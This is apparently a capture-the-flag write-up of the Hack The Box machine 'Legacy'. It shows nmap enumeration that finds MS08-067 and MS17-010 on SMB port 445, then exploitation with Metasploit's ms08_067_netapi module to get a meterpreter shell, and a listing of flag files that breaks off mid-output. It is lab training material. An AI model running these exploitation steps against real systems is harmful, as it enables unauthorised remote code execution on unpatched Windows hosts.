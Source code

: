 # Summary
### 1. NMAP, Business as Usual
We see the system is a outdated and old version of Windows, Windows XP (2000 LAN Manager).

### 2. Vulnerability Search
We see lots of SMB exploits when doing a SearchSploit search for Windows 2000. Let's enumerate further.

### 3. NMAP Again
We find that the system is vulnerable to `smb-vuln-ms08-067` & `smb-vuln-ms17-010` on SMB, Port 445.

### 4. Metasploit!
We use a metasploit module `exploit/windows/smb/ms08_067_netapi` for `smb-vuln-ms08-067` and it worked! We got into the system.

# Attack
## 1. NMAP, Business as Usual
```
hippoeug@kali:~$ nmap -sC -sV -A -v 10.10.10.4 -Pn
Starting Nmap 7.80 ( https://nmap.org ) at 2020-11-27 21:57 +08
...
Nmap scan report for 10.10.10.4
Host is up (0.0055s latency).
Not shown: 997 filtered ports
PORT     STATE  SERVICE       VERSION
139/tcp  open   netbios-ssn   Microsoft Windows netbios-ssn
445/tcp  open   microsoft-ds  Windows XP microsoft-ds
3389/tcp closed ms-wbt-server
Service Info: OSs: Windows, Windows XP; CPE: cpe:/o:microsoft:windows, cpe:/o:microsoft:windows_xp

Host script results:
|_clock-skew: mean: -4h00m00s, deviation: 1h24m50s, median: -5h00m00s
| nbstat: NetBIOS name: LEGACY, NetBIOS user: <unknown>, NetBIOS MAC: 00:50:56:b9:c9:7c (VMware)                                                                
| Names:
|   LEGACY<00>           Flags: <unique><active>
|   HTB<00>              Flags: <group><active>
|   LEGACY<20>           Flags: <unique><active>
|_  HTB<1e>              Flags: <group><active>
| smb-os-discovery: 
|   OS: Windows XP (Windows 2000 LAN Manager)
|   OS CPE: cpe:/o:microsoft:windows_xp::-
|   Computer name: legacy
|   NetBIOS computer name: LEGACY\x00
|   Workgroup: HTB\x00
|_  System time: 2020-11-27T12:57:27+02:00
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
|_smb2-time: Protocol negotiation failed (SMB2)

```
Wow, interesting, Windows XP (2000 LAN Manager). Unpatched Windows, hell yeah. Let's see..

## 2. Vulnerability Search
```
hippoeug@kali:~$ searchsploit windows 2000 smb
------------------------------------------------------------------------------------------------------------------------------------ ---------------------------------
 Exploit Title                                                                                                                      |  Path
------------------------------------------------------------------------------------------------------------------------------------ ---------------------------------
Microsoft Windows 2000/XP - SMB Authentication Remote Overflow                                                                      | windows/remote/20.txt
Microsoft Windows XP/2000 - 'Mrxsmb.sys' Local Privilege Escalation (MS06-030)                                                      | windows/local/1911.c
Microsoft Windows XP/2000/NT 4.0 - Network Share Provider SMB Request Buffer Overflow (1)                                           | windows/dos/21746.c
Microsoft Windows XP/2000/NT 4.0 - Network Share Provider SMB Request Buffer Overflow (2)                                           | windows/dos/21747.txt
------------------------------------------------------------------------------------------------------------------------------------ ---------------------------------
Shellcodes: No Results
```
Hmm, maybe I need something more direct. Let's scan the ports and see.

## 3. NMAP Again
```
hippoeug@kali:~$ sudo nmap -p 445 --script=vuln 10.10.10.4 -v -Pn
Starting Nmap 7.80 ( https://nmap.org ) at 2020-11-27 22:48 +08
...
Nmap scan report for 10.10.10.4
Host is up (0.0051s latency).

PORT    STATE SERVICE
445/tcp open  microsoft-ds
|_clamav-exec: ERROR: Script execution failed (use -d to debug)

Host script results:
|_samba-vuln-cve-2012-1182: NT_STATUS_ACCESS_DENIED
| smb-vuln-ms08-067: 
|   VULNERABLE:
|   Microsoft Windows system vulnerable to remote code execution (MS08-067)
|     State: VULNERABLE
|     IDs:  CVE:CVE-2008-4250
|           The Server service in Microsoft Windows 2000 SP4, XP SP2 and SP3, Server 2003 SP1 and SP2,
|           Vista Gold and SP1, Server 2008, and 7 Pre-Beta allows remote attackers to execute arbitrary
|           code via a crafted RPC request that triggers the overflow during path canonicalization.
|           
|     Disclosure date: 2008-10-23
|     References:
|       https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2008-4250
|_      https://technet.microsoft.com/en-us/library/security/ms08-067.aspx
|_smb-vuln-ms10-054: false
|_smb-vuln-ms10-061: ERROR: Script execution failed (use -d to debug)
| smb-vuln-ms17-010: 
|   VULNERABLE:
|   Remote Code Execution vulnerability in Microsoft SMBv1 servers (ms17-010)
|     State: VULNERABLE
|     IDs:  CVE:CVE-2017-0143
|     Risk factor: HIGH
|       A critical remote code execution vulnerability exists in Microsoft SMBv1
|        servers (ms17-010).
|           
|     Disclosure date: 2017-03-14
|     References:
|       https://blogs.technet.microsoft.com/msrc/2017/05/12/customer-guidance-for-wannacrypt-attacks/
|       https://technet.microsoft.com/en-us/library/security/ms17-010.aspx
|_      https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2017-0143
```
OOH, it's vulnerable to `smb-vuln-ms08-067`. And good ol' `smb-vuln-ms17-010` eternalblue which I'm not gonna attempt on this poor XP machine.

## 4. Metasploit!
Let's try it with metasploit. Source: http://scx020c07c.blogspot.com/2012/09/exploitation-windows-xp-using.html

```
msfconsole
use exploit/windows/smb/ms08_067_netapi
```
And we're in, time to find the flags.

```
meterpreter > search -f *.txt
Found 26 results...
    c:\Documents and Settings\Administrator\Application Data\Microsoft\Internet Explorer\brndlog.txt (10389 bytes)
    c:\Documents and Settings\Administrator\Desktop\root.txt (32 bytes)
    c:\Documents and Settings\Default User\Application Data\Microsoft\Internet Explorer\brndlog.txt (141 bytes)
    c:\Documents and Settings\john\Application Data\Microsoft\Internet Explorer\brndlog.txt (10380 bytes)
    c:\Documents and Settings\john\Desktop\user.txt (32 bytes)
    c:\Program Files\Movie Maker\Shared\Empty.txt (18 bytes)
    c:\Program Files\Movie Maker\Shared\Profiles\Blank.txt (21 bytes)
    c:\Program Files\Outlook Express\msoe.txt (133 bytes)
    c:\System Volume Information\_restore{8ACB70A4-C5EE-460F-94BB-8F26DD405EFE}\drivetable.txt (130 bytes)
    c:\System Volume Information\_restore{8ACB70A4-C5EE-460F-94BB-8F26DD405EFE}\RP1\snapshot\domain.txt (26 bytes)
    c:\WINDOWS\OEWABLog.txt (1178 bytes)
    c:\WINDOWS\SchedLgU.Txt (1308 byte
```
